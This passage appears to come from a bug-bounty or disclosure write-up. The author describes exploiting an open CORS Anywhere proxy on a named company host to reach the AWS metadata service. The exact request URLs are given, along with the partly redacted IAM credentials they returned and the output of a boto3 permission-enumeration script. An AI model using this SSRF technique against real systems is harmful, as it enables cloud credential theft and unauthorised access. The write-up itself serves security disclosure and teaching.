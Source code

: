 Where if it's a path, that means there were sub-directories.

So what about IMS roles? I didn't expect this to do anything and I don't really know AWS enough to get more advanced, but I decided to try it out. I requested `https://cors.zonos.com/http://169.254.169.254/latest/meta-data/iam/security-credentials/` and I got this result:

```
prod-ecs-agent
```

It was that one sole line, and then I tried to get the security credentials for the role. I didn't expect it to work (because once again I know basically nothing about AWS and securely configuring your container), but I actually got valid credentials! This was the response body for the request to `https://cors.zonos.com/http://169.254.169.254/latest/meta-data/iam/security-credentials/prod-ecs-agent`:

```
{
  "Code" : "Success",
  "LastUpdated" : "2025-04-28T22:30:55Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIAR3GS[REDACTED]W7CO",
  "SecretAccessKey" : "dj807[REDACTED]T/BJVahJ3we4J",
  "Token" : "IQoJb3JpZ2luX2VjEOf//////////wEaCXVzLWVhc[REDACTED]BEAIaDDEyNzE0MzY1NDM5NyIMTOdyKPcx+VFO2tz5KpgFONNZXoBMBJIElEX187lHPR0EFszKi+L0ag+2NAKao00XEtXLBJX0eVOVvj4t9CQhizDMBg1yilYcREw62io2cVhWa4yKGLfz8mBtDeF+9lCW0YOW/wi3iq+J3[REDACTED]VoCJ+xhPqu73UZmE6yClzPnGI2a0ix9hCPEH/nsqgJMLxhXELHem+qGgH1I6n9W7mwR3vExOhpOUbi2c/6ZZxKh2aRmm21eCv7PIfhWNIpWl79bnGhiGm/Jy7ybzvZIYhMFYrRcB[REDACTED]LJQndizqiq9ugokEydBByCLaa6u0kbPWZMub/OxAMMtr84DaOgddaaApGNk5yaGvzWQgaPqiTgvIB88trUNk3V95Gm5R/ajNNFmQfHWym4mnEe87R3A8mwDzY2qGElbBling2ip2xaAemX8i3YZRzYQpnwumS0VZYLH6gzq4FKm3xeygepUFUmwAadM3TRSA=",
  "Expiration" : "2025-04-29T04:47:05Z"
}
```

I redacted chunks of the values, to make sure that they weren't exposed, but I did get the entire thing.

## Couldn't Escalate

I wanted to test the boundaries of `prod-ecs-agent`, and see what I could do with it; I didn't want to report just the SSRF which was almost a given with hosting CORS Anywhere without configuring it, so I created a quick `boto3` script to see what I had access to:

```
[+] STS Identity ✅
[-] S3 Buckets ❌ Access Denied
[-] IAM Roles ❌ Access Denied
[!] EC2 Instances ⚠️ You are not authorized to perform this operation. User: arn:aws:sts::127143654397:assumed-role/prod-ecs-agent/i-0ed3c94f65f1ef962 is not authorized to perform: ec2:DescribeInstances because no identity-based policy allows the ec2:DescribeInstances action
[!] ECS Clusters ⚠️ User: arn:aws:sts::127143654397:assumed-role/prod-ecs-agent/i-0ed3c94f65f1ef962 is not authorized to perform: ecs:ListClusters on resource: * because no identity-based policy allows the ecs:ListClusters action
[!] Lambda Functions ⚠️ User: arn:aws:sts::127143654397:assumed-role/prod-ecs-agent/i-0ed3c94f65f1ef962 is not authorized to perform: lambda:ListFunctions on resource: * because no identity-based policy allows the lambda:ListFunctions action
[+] CloudWatch Logs ✅
[!] Secrets Manager ⚠️ User: arn:aws:sts::127143654397:assumed-role/prod-ecs-agent/i-0ed3c94f65f1ef962 is not authorized to perform: secretsmanager:ListSecrets because no identity-based policy allows the secretsmanager:ListSecrets action
[!] SSM Parameters ⚠️ User: arn:aws:sts::127143654397:assumed-role/prod-ecs-agent/i-0ed3c94f65f1ef962 is not authorized to perform: ssm:DescribeParameters on resource: arn:aws:ssm:us-east-1:127143654397:* because no identity-based policy allows the ssm:DescribeParameters action
```
